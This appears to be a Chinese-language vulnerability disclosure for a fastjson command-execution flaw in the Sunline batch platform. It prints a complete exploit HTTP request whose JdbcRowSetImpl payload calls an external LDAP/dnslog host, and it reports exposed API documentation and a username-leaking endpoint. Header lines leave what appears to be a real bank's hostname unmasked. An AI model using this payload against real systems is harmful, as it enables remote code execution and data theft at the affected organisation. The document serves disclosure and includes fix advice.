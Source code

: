 # sunline

长亮sunline跑批平台接口存在fastjson命令执行漏洞

漏洞地址：

https://xxxxxxx/loader/api/uiAuth/login

https://xxxxxxx/loader/api/uiAuth/reset-password-sendmail
         
漏洞描述：长亮sunline跑批平台接口存在fastjson命令执行漏洞

漏洞详情：

1、接口存在fastjson命令执行漏洞

![image](https://github.com/ranhn/Sunline/assets/107679328/2a018bf1-faf5-4fef-84a0-e16bc44661d5)

POST /loader/api/uiAuth/reset-password-sendmail HTTP/1.1

Host: xxxxxx.com.ph

Cookie: acw_tc=0bc1a14316933660392643949e455a577eede41c8a82de5b661a2f4841446e; 

JSESSIONID=D34E1ED55B1F03E9068D984A58F487D8

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0

Accept: /

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Referer: https://bk-assistant.ownbank.com.ph/

Content-Type: application/json

If-Modified-Since: 0

Content-Length: 129

Origin: https://bk-assistant.ownbank.com.ph

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin

Pragma: no-cache

Cache-Control: no-cache

Te: trailers

Connection: close

{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap://r0mkls.dnslog.cn”, “autoCommit”:true}
![image](https://github.com/ranhn/Sunline/assets/107679328/f0994785-72c3-4d76-ba7b-e17b6ab1a77a)
2、同时存在接口文档暴露问题

https://xxxxxxx.com.ph/swagger-ui.html

![image](https://github.com/ranhn/Sunline/assets/107679328/4309d4a0-e3de-49c9-baea-c0498f59ca56)

https://xxxxxxx.com.ph/loader/syncResourcesNotify/users 返回用户名

![image](https://github.com/ranhn/Sunline/assets/107679328/44cfc0a8-91cd-479a-aecc-1ed2b51d16e8)

漏洞版本：版本未知（没有版本概念）

修复建议：

1、升级到最新版本。

2、接口敏感信文档做鉴权。
